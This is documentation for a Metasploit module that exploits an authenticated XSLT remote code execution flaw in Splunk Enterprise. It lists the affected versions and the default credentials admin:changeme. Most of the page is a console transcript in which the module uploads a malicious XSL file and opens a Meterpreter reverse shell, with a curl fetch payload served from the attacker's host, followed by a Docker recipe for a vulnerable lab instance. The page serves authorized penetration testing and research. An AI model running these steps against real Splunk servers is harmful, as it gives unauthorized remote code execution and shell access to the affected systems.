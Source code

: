 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution (RCE) vulnerability in Splunk Enterprise.
The vulnerability affects versions 9.0.x prior to 9.0.7 and 9.1.x before 9.1.2.
The exploit takes advantage of a flaw in the XSLT transformation functionality of Splunk Enterprise
and requires valid credentials to be executed successfully, with the default credentials often being admin:changeme.

Upon successful exploitation, the attacker is able to execute code with the same privileges as the Splunk service user.
Typically, this user is 'splunk' and the resulting shell will have permissions associated with this user account,
which may vary depending on the specific environment and configuration of the Splunk service.

## Verification Steps
1. **Start Metasploit**: Launch `msfconsole` in your Metasploit framework.
2. **Select the Module**: Use the module with the command `use exploit/unix/http/splunk_xslt_authenticated_rce`.
3. **Disable AutoCheck**: Optionally, you can disable the automatic vulnerability check with `set AutoCheck false`.
4. **Execute the Exploit**: Use the `exploit` command to run the exploit.

## Scenarios
```
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(unix/http/splunk_xslt_authenticated_rce) > options

Module options (exploit/unix/http/splunk_xslt_authenticated_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   PASSWORD         changeme         yes       Password for Splunk
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RANDOM_FILENAME  gWQgBqnz         no        Random filename with 8 characters
   RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasp
                                               loit.html
   RPORT            8000             yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME         admin            yes       Username for Splunk
   VHOST                             no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      eXHMuZOtzdPG     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(unix/http/splunk_xslt_authenticated_rce) > set rhosts chocapikk.lab
rhosts => chocapikk.lab
msf exploit(unix/http/splunk_xslt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Successfully authenticated on the Splunk instance
[+] The target appears to be vulnerable. Exploitable version found: 9.1.1
[+] Successfully authenticated on the Splunk instance
[*] Extracting CSRF token from cookies
[+] CSRF token successfully extracted: 4066849599386392852
[+] Malicious file uploaded successfully
[*] Sending job search request to /en-US/splunkd/__raw/servicesNS/admin/search/search/jobs
[*] Triggering XSLT transformation at /en-US/api/search/jobs/1701424044.745/results?xsl=/opt/splunk/var/run/splunk/dispatch/1701424043.744/gWQgBqnz.xsl
[+] XSLT transformation triggered successfully
[*] Executing payload at /en-US/splunkd/__raw/servicesNS/admin/search/search/jobs
[+] Payload executed successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 172.17.0.2:60690) at 2023-12-01 10:47:25 +0100

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 6.4.10-060410-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### Exploitation Process
1. **Authentication**: The module authenticates using provided credentials.
2. **CSRF Token Extraction**: Extracts a CSRF token from the Splunk server for subsequent requests.
3. **Malicious File Upload**: Uploads a malicious XSL file to the server.
4. **Triggering XSLT Transformation**: Initiates an XSLT transformation to execute the payload.
5. **Executing Payload**: Executes the payload, resulting in a reverse shell or similar access.

### Creating a Vulnerable Splunk

```
docker run -p 8000:8000 -e "SPLUNK_PASSWORD=Password^" -e "SPLUNK_START_ARGS=--accept-license" -it splunk/splunk:9.1.1
```
To create a vulnerable user, login with admin, then browse:
settings > users > New User
    Create a new user with the 'user' and 'splunk-system-role' role

### Expected Results
- This exploit requires valid credentials for successful execution.
